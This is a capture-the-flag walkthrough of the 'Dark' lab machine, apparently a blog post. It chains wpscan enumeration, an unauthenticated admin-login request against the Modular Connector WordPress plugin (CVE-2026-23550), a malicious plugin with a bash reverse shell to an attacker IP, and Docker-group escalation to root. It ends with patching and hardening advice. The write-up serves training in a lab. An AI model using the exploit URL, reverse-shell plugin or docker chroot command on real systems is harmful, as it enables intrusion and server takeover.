










In this walkthrough, we will be compromising Dark, an easy-difficulty Linux machine from Hack Smarter Labs. The engagement begins with only VPN access and a single in-scope host running SSH and an Apache web server. The web server hosts a WordPress site, and enumerating its plugins with wpscan flags an outdated Modular Connector plugin carrying an unauthenticated privilege escalation. Exploiting CVE-2026-23550 logs us straight into the dashboard as the administrator `streetcoderadmin`, and from there we upload a malicious plugin to land a reverse shell as `www-data` and grab the user flag. Basic enumeration shows `www-data` sitting in the `docker` group, which we abuse to mount the host filesystem inside a container and escalate to root.


Created by: [streetcoder](https://www.hacksmarter.org/courses/bb164cba-ddc9-4cb0-8e95-ad4853d0143c)

Let's get started.

## Objective

You have been hired to perform a penetration test on a single host in a company's network. Your task is to identify all vulnerabilities and demonstrate impact to the client by elevating your privileges to root.

The client has provided you with VPN access to the network, but no additional details.

## Scope

**Target:** `10.0.27.205`

## RustScan

We start with [RustScan](https://github.com/bee-san/RustScan) to find the open ports quickly. It hands them straight to Nmap, which identifies service versions with `-sV` and runs the default script set with `-sC` to pull banners, certificates, and other details.

```
rustscan -a 10.0.27.205 -- -sC -sV
```

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 8.9p1 Ubuntu 3ubuntu0.15 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 a2:fa:00:85:4c:0d:97:79:7b:46:e4:86:1b:18:72:19 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLam/VK6YR6qok5qjxAOMQIMtbsBuqTMCcwN54GLSUj647RGe9FJoID+In4rw7Uq5IonEyDaltg+HosxF31l1FU=
|   256 ea:8d:af:2f:ec:15:d9:32:c0:94:6f:09:03:49:60:36 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILg3Yms7k9Fk2ZLcerD3FB6RxonH+HtTOpefF4dky0+D
80/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.52 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
|_http-favicon: Unknown favicon MD5: 000BF649CC8F6BF27CFB04D1BCDCD3C7
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Dark &#8211; Just another WordPress site
|_http-generator: WordPress 6.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```



*RustScan handing off to Nmap: SSH on 22 and Apache hosting WordPress on 80*

SSH is on 22, and port 80 serves an Apache-hosted WordPress 6.0 site. Before turning to the web application, we check whether SSH accepts password authentication.

```
ssh root@10.0.27.205
```



*SSH prompting for a password, confirming password authentication is enabled*

SSH prompts for a password, so password authentication is on. We turn to the web server on port 80.

## HTTP (Port 80)

We browse to the site running on port 80.



*The Dark WordPress 6.0 site served on port 80*

We enumerate the installed plugins with wpscan.

```
wpscan --url http://10.0.27.205/ --api-token YOUR_API_TOKEN --enumerate p --plugins-detection mixed
```

```
[i] Plugin(s) Identified:

[+] akismet
 | Location: http://10.0.27.205/wp-content/plugins/akismet/
 | Latest Version: 5.7
 | Last Updated: 2026-04-23T22:34:00.000Z
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://10.0.27.205/wp-content/plugins/akismet/, status: 403
 |
 | [!] 1 vulnerability identified:
 |
 | [!] Title: Akismet 2.5.0-3.1.4 - Unauthenticated Stored Cross-Site Scripting (XSS)
 |     Fixed in: 3.1.5
 |     References:
 |      - https://wpscan.com/vulnerability/1a2f3094-5970-4251-9ed0-ec595a0cd26c
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-9357
 |      - http://blog.akismet.com/2015/10/13/akismet-3-1-5-wordpress/
 |      - https://blog.sucuri.net/2015/10/security-advisory-stored-xss-in-akismet-wordpress-plugin.html
 |
 | The version could not be determined.

[+] modular-connector
 | Location: http://10.0.27.205/wp-content/plugins/modular-connector/
 | Last Updated: 2026-07-30T21:26:00.000Z
 | Readme: http://10.0.27.205/wp-content/plugins/modular-connector/readme.txt
 | [!] The version is out of date, the latest version is 3.1.0
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://10.0.27.205/wp-content/plugins/modular-connector/, status: 403
 |
 | [!] 2 vulnerabilities identified:
 |
 | [!] Title: Modular DS < 2.5.2 - Unauthenticated Privilege Escalation
 |     Fixed in: 2.5.2
 |     References:
 |      - https://wpscan.com/vulnerability/3ccaa0fd-b11c-4f9f-bab5-644a53b11035
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2026-23550
 |      - https://patchstack.com/database/wordpress/plugin/modular-connector/vulnerability/wordpress-modular-ds-monitor-update-and-backup-multiple-websites-plugin-2-5-1-privilege-escalation-vulnerability
 |
 | [!] Title: Modular Connector < 2.6.0 - Cross-Site Request Forgery via postConfirmOauth
 |     Fixed in: 2.6.0
 |     References:
 |      - https://wpscan.com/vulnerability/fe2b101a-d065-4fc2-91d8-0a639bcc3f35
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2026-3903
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/913a94ad-f425-4d24-9e23-7074ecfed8ad
 |
 | Version: 2.5.0 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://10.0.27.205/wp-content/plugins/modular-connector/readme.txt
```



*wpscan flagging the Modular Connector plugin's unauthenticated privilege escalation, CVE-2026-23550*

wpscan flags two plugins. Akismet turns up with a stale XSS advisory, but Modular Connector is the target worth chasing: it is out of date and carries an unauthenticated privilege escalation, CVE-2026-23550, alongside a CSRF issue. The privilege escalation has the biggest impact, so we go after it.

## Access as streetcoderadmin

[CVE-2026-23550](https://benryan.com.au/blog/modular-ds-privilege-escalation-vulnerability) is an unauthenticated privilege escalation in the Modular Connector plugin. The plugin exposes a login endpoint that authenticates the caller as an existing administrator without checking any credentials, so a single request to it is enough to gain an admin session. We load the endpoint in the browser with the throwaway parameters it requires.

```
http://10.0.27.205/api/modular-connector/login/dashboard?origin=mo&type=xxx
```



*The Modular Connector exploit logging us into the dashboard as the administrator streetcoderadmin*

The request logs us straight into the dashboard as `streetcoderadmin`, a full administrator.

## Shell as www-data (user.txt)

A WordPress administrator can install and activate plugins, and a plugin is just PHP that WordPress runs, so the admin session is enough to execute our own code on the server. We grab [EvilSimpleWordpressPlugin](https://github.com/DrP1ng/EvilSimpleWordpressPlugin), a single PHP file that opens a bash reverse shell back to our host.

```
<?php
/**
* Plugin Name: Evil Simple Wordpress Plugin
* Version: 1.0
* Author: Dr. P1ng
**/
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.200.76.166/1337 0>&1'");
?>
```

Update the IP and port to your own.

WordPress expects a plugin packaged as a zip, so we archive the file before uploading it.

```
zip rshell.zip rshell.php
```

We start Penelope, a reverse shell handler that upgrades the session to a full TTY on its own, and leave it listening on our port.

```
penelope -p 1337
```

From the admin panel we upload the plugin and activate it.



*The reverse shell plugin uploaded and activated from the WordPress admin panel*

Activation runs the payload. Penelope catches the shell as `www-data`.



*Penelope receiving the reverse shell as the www-data user*

The user flag is waiting in `/var/www`.



*The user.txt flag retrieved from /var/www*

## Shell as root (root.txt)

From the `www-data` shell we run basic enumeration, and group membership is the first thing worth checking.

```
groups
```



*The groups command showing www-data as a member of the docker group*

`www-data` belongs to the `docker` group. Membership in that group is effectively root on the host, because the Docker daemon runs as root and any member can start a container that mounts the host filesystem. We spin up an Alpine container with the host's root directory mounted inside it and chroot into that mount, which lands us in a root shell on the host.

```
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```



*A root shell on the host with the root.txt flag from /root*

We are root. The final flag is in `/root`.

## Final Thoughts

Dark was a quick box for me. A single unauthenticated request handed over WordPress admin access, so I spent more time enumerating than exploiting. What stuck with me is how short the chain was, with a single group membership standing between a limited shell and full root.

The Modular Connector plugin was out of date, and the flaw we used already had a fix available. Plugins and themes need a regular patch cadence, and anything unused should be removed rather than left installed. The other half was `www-data` sitting in the `docker` group. A web service account in that group is root on the host, so it should never include the account a public-facing service runs as.

— 0xB1rd
